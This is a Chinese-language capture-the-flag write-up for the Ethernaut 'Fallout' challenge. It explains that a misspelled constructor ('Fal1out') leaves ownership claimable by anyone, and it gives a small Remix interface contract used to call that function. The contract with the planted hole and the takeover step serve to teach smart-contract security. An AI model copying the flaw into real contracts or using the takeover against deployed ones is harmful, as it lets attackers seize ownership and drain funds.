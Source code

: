```solidity

    // 给消息发送者转账该合约全部金额，只有owner可以调用
    function collectAllocations() public onlyOwner {
        msg.sender.transfer(address(this).balance);
    }

    // 查看allocator的金额
    function allocatorBalance(address allocator) public view returns (uint256) {
        return allocations[allocator];
    }
}
```

### 分析

题目要我们获取合约所有权，整个合约就一个地方有变更` owner `的：

```solidity
// 构造函数
function Fal1out() public payable {
    // 消息发送者为合约所有者
    owner = msg.sender;
    // allocations[owner] = 附带的金额
    allocations[owner] = msg.value;
}
```

但看版本是` 0.6 `，构造函数根本不是这么写的：

```solidity
// 0.4.22版本以下，构造函数是使用合约同名函数
contract AAA{
    function AAA(){
        // 构造函数
    }
}
// 0.4.22版本以上，构造函数必须使用constructor关键字
contract BBB{
    constructor(){
        // 构造函数
    }
}
```

仔细看会发现合约名是` Fallout `，函数名是` Fal1out `；

那直接用咱们的钱包调用` Fal1out `函数，附带一点金额就行了；

### 攻击

直接将整个合约拷贝到` Remix `中是会直接报错的，需要解决很长时间；

这里我们直接写抽象函数即可，因为我们就是想快捷地向合约发送` ABI `才来使用` Remix `的，将需要调用的函数声明一下即可：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.26;

contract Fallout {
    // owner状态变量
    address payable public owner;
    // Fal1out函数
    function Fal1out() public payable {}
}
```
